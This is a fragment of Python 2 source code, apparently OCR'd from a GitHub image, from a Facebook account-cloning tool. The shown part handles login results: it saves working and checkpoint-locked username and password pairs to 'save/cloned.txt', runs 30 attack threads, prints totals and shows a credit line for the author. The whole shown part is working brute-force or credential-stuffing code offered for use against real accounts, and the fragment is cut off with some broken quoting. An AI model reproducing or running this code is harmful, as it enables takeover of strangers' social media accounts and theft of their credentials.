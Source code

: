                                                 print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                
                                                                                                                                                                                                                
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
 
 
                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                            
 
 
 
        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total CP/Ok: '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    print """
 
 
 
\033[1;96mThanks For Using My tool
\033[1;95mFb\033[1;97mYUB-RAJ""
 
    
    raw_input("\n\033[1;92m[\033[1;92mBack\033[1;95m]")
    login() 
          
if __name__ == '__main__':
    login()
 
